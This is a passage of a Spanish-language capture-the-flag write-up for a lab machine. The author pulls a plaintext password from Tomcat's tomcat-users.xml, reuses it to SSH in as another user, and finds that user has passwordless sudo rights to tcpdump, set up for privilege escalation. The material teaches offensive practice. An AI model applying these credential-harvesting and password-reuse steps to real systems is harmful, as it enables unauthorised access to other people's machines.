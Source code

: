 
## Credentials Leakage - `tomcat-users.xml`

Como el servicio web ejecuta `tomcat`, podemos buscar el archivo de configuración que pueda contener credenciales para usuarios válidos. En este caso podemos encontrar el archivo `tomcat-users` en la ruta `etc/tomcat9/tomcat-users.xml` 

~~~ bash
tomcat@strutted:~$ cat /etc/tomcat9/tomcat-users.xml | grep password
  you must define such a user - the username and password are arbitrary.
  will also need to set the passwords to something appropriate.
  <user username="admin" password="<must-be-changed>" roles="manager-gui"/>
  <user username="robot" password="<must-be-changed>" roles="manager-script"/>
  <user username="admin" password="IT14d6SSP81k" roles="manager-gui,admin-gui"/>
  them. You will also need to set the passwords to something appropriate.
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>
~~~

Vemos una contraseña, si intentamos migrar al usuario `james` en la terminal actual con el comando  `su`, no podremos por alguna configuración definida.


## Shell as `james`

Entonces entraremos por `ssh` desde nuestra máquina atacante utilizando estas credenciales

~~~ bash
ssh james@strutted.htb
The authenticity of host 'strutted.htb (10.10.11.59)' can't be established.
ED25519 key fingerprint is SHA256:TgNhCKF6jUX7MG8TC01/MUj/+u0EBasUVsdSQMHdyfY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'strutted.htb' (ED25519) to the list of known hosts.
james@strutted.htb's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-130-generic x86_64)
...
...
james@strutted:~$ export TERM=xterm
~~~


## Abusing Sudoers Privileges - `tcpdump`

Si listamos los privilegios que tenemos asignados con `sudo`, notaremos que el usuario `james` puede ejecutar `tcpdump` como cualquier usuario sin proporcionar contraseña

~~~ bash
james@strutted:~$ id
uid=1000(james) gid=1000(james) groups=1000(james),27(sudo)
~~~
~~~ bash
james@strutted:~$ sudo -l
Matching Defaults entries for james on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User james may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/sbin/tcpdump
~~~
